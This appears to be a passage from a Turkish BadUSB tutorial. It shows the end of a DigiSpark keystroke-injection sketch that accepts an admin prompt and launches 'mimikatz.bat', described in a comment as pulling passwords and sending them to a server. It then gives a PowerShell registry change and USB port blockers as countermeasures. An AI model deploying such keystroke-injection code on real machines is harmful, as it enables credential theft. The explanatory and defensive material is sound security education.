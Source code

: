 ```
  DigiKeyboard.delay(500);
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  DigiKeyboard.delay(3000);
  DigiKeyboard.print("Yes");
  DigiKeyboard.delay(1000);
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  DigiKeyboard.delay(2000);
  DigiKeyboard.print("mimikatz.bat"); // şifreleri çekip sunucuya yolluyor
  DigiKeyboard.delay(2000);
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  DigiKeyboard.delay(3000);
  for (;;){
    /*lesgo*/
  }
}
```

### [](#header-3)Önlemler

Genel olarak BadUSB komutları, genellikle `Powershell` ve `CMD` betikleri aracılığıyla yürütüldüğünden, bu betiklerin kolayca açılmasını engelleyerek önlem alabiliriz. Bunun için aşağıdaki kodu powershell
üzerinde çalıştırın. Bu komut ile powershell ve cmd betikleri açılmaya çalışıldığında şifre istenecek. Eski hale getirmek isterseniz değerini `5` olarak ayarlayın.

```
Set-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System" -Name "ConsentPromptBehaviorAdmin" -Value 1
```

Tabii ki bunun nihai önlem olmadığını belirtmekte fayda var. Buna ek olarak `USB port blocker` yazılımıda kullanılabilir.










